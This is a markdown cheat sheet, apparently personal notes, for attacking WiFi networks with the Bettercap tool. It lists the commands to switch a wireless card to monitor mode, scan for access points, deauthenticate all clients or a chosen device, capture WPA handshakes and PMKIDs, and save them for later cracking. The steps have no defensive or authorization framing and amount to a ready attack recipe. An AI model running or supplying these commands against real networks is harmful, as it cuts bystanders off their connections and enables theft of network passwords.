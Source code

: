 ```yaml
---
sticker: emoji//1f3b6
---
```




![[Bettercap.png]]



### 1. 🛠️ Preparation

Ensure your network card is ready before starting with BetterCap.

### 1.1 Monitor Mode Activation

```bash
sudo ip link set wlx00c0cab0cafe down
sudo iw wlx00c0cab0cafe set monitor none
sudo ip link set wlx00c0cab0cafe up
```

- Take the network interface down.
- Set the interface to monitor mode.
- Bring the interface back up.

### 1.2 Frequency Adjustment

To switch between 2GHz and 5GHz:

- **For 2GHz**:
    
    ```bash
    sudo iwconfig wlx00c0cab0cafe freq 2.412G
    ```
    
- **For 5GHz**:
    
    ```bash
    sudo iwconfig wlx00c0cab0cafe freq 5.18G
    ```
    
- This sets the network card to operate on the desired frequency band.
    

### 2. 📡 Reconnaissance

```bash
wifi.recon on
```

- Start scanning for nearby WiFi APs.

### 3. 🔇 Muting Alerts

```bash
events.stream off
```

- Turn off the event stream to avoid alert spam.

### 4. 📊 Displaying APs

```bash
wifi.show
```

- Show all the WiFi APs discovered.

### 5. 📶 Deauthentication Attacks

### 5.1 Deauth All

```bash
wifi.deauth all
```

- Force all clients to disconnect from their WiFi networks to capture handshakes.

### 5.2 Deauth Specific Device

```bash
wifi.deauth <target_mac>
```

- Target a specific device for deauthentication by replacing `<target_mac>` with the actual MAC address.

### 6. 💽 Handshake Storage

```bash
set wifi.handshakes '~/Desktop'
```

- Specify the location to save captured handshakes.

### 7. 🔑 PMKID Capture

```bash
wifi.assoc all
```

- Associate with all APs to try and capture PMKID.

### 8. 🗃️ Session Autosave

```bash
set autosave true
```

- Enable automatic saving of your session.

### 9. 🏁 Exiting BetterCap

```bash
quit
```

- Safely terminate the BetterCap session.

